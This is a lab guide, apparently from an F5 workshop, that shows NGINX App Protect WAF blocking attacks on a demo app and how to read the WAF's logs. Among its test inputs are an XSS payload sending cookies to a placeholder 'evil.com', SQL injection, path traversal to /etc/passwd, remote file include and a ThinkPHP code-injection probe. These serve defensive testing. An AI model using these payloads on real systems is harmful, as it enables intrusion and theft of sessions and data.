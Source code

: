 Access the Application and test the NGINX App Protect WAF to see how it works in action
-----------------------------------------------------------

Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 14609283746114744748
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try**

SQL Injection - ``GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``
Remote File Include - ``GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``
Command Execution - ``GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``
HTTP Parser Attack - ``GET /?XDEBUG_SESSION_START=phpstorm``
Predictable Resource Location Path Traversal - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``
Cross Site Scripting - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``
Informtion Leakage - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``
HTTP Parser Attack Forceful Browsing - ``GET /dana-na/auth/url_default/welcome.cgi``
Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - ``GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``
Cross Site Scripting - ``GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


** and many more from bash script below **

        .. code-block :: bash

                #!/bin/bash
                echo "------------------------------"
                echo "Starting security testing..."
                echo "------------------------------"
                echo ""
                echo ""

                # Get the external IP address of the NGINX Ingress Controller
                EXTERNAL_IP=$(kubectl get services -n ingress-nginx | awk 'NR==2{print $4}')

                echo "---------------------------------------------------------------------"
                echo "Multiple decoding"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
                echo "---------------------------------------------------------------------"

                # Send a request with multiple decoding
                curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "IIS Backslashes"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with IIS backslashes
                curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Cross site scripting"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with cross-site scripting payload
                curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"



Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD by running ``oc get all -o wide``

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc get all -o wide
                NAME                           READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
                pod/app2-6bd5b4fbd7-6k8hd      1/1     Running   0          18h   10.128.2.47   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/app3-5699b95596-2s927      1/1     Running   0          18h   10.131.0.19   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>
                pod/backend-79c6bcf85c-k8m2s   1/1     Running   0          18h   10.128.2.45   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/main-584fc64db4-v8jf2      1/1     Running   0          18h   10.128.2.46   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/syslog-bb47bd798-2vqps     1/1     Running   0          18h   10.131.0.20   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>

#. Examine the logging matching the support ID of `436359350950` 

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc exec -it pod/syslog-bb47bd798-2vqps  -- cat /var/log/messages | grep 4363593509500748230
                Feb  8 18:53:09 my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz ASM:attack_type="SQL-Injection,Other Application Activity",blocking_exception_reason="N/A",date_time="2023-02-08 18:53:09",dest_port="80",ip_client="76.220.40.89",is_truncated="false",method="GET",policy_name="dataguard-alarm",protocol="HTTP",request_status="blocked",response_code="0",severity="Critical",sig_cves="N/A,N/A,N/A,N/A",sig_ids="200002553,200000073,200002736,200000082",sig_names="SQL-INJ integer field UNION (Parameter),SQL-INJ ""UNION SELECT"" (Parameter),SQL-INJ ' UNION SELECT (Parameter)...",sig_set_names="{SQL Injection Signatures},{SQL Injection Signatures},{SQL Injection Signatures}...",src_port="52787",sub_violations="N/A",support_id="4363593509500748230",threat_campaign_names="N/A",unit_hostname="my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz",uri="/",violation_rating="5",vs_name="78-a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com:8-/",x_forwarded_for_header_value="N/A",outcome="REJECTED",outcome_reason="SECURITY_WAF_VIOLATION",violations="Attack signature detected,Violation Rating Threat detected",json_log="{""violations"":[{""enforcementState"":{""isBlocked"":true},""violation"":{""name"":""VIOL_RATING_THREAT""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ integer field UNION (Parameter)"",""signatureId"":200002553},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""UNION SELECT\"" (Parameter)"",""signatureId"":200000073},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ ' UNION SELECT (Parameter)"",""signatureId"":200002736},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""SELECT FROM\"" (Parameter)"",""signatureId"":200000082},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}}]}",violation_details="<?xml version='1.0' encoding='UTF-8'?><BAD_MSG><violation_masks><block>410000000000c00-3a03030c30000072-8000000000000000-0</block><alarm>2477f0ffcbbd0fea-befbf35cb000007e-8000000000000000-0</alarm><learn>0-0-0-0</learn><staging>0-0-0-0</staging></violation_masks><request-violations><violation><viol_index>42</viol_index><viol_name>VIOL_ATTACK_SIGNATURE</viol_name><context>parameter</context><parameter_data><value_error/><enforcement_level>global</enforcement_level><name>aGZzYWdycw==</name><auto_detected_type>alpha-numeric</auto_detected_type><value>LTEgdW5pb24gc2VsZWN0IHVzZXIscGFzc3dvcmQgZnJvbSB1c2VycyAtLSA=</value><location>query</location><param_name_pattern>*</param_name_pattern><staging>0</staging></parameter_data><staging>0</staging><sig_data><sig_id>200002553</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>15</length></kw_data></sig_data><sig_data><sig_id>200000073</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>43</length></kw_data></sig_data><sig_data><sig_id>200002736</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>9</offset><length>14</length></kw_data></sig_data><sig_data><sig_id>200000082</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>17</offset><length>34</length></kw_data></sig_data></violation></request-violations></BAD_MSG>",bot_signature_name="N/A",bot_category="N/A",bot_anomalies="N/A",enforced_bot_anomalies="N/A",client_class="Browser",client_application="Chrome",client_application_version="109",request="GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+ HTTP/1.1\r\nHost: a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com\r\nConnection: keep-alive\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\n\r\n",transport_protocol="HTTP/1.1"
                [lab-user@bastion app-protect-waf]$

#. The output of the command shows the relevant log entry that contains information about a SQL injection attack and the specific signatures that were triggered by the attack.

Congratulations on completing the Lab!



        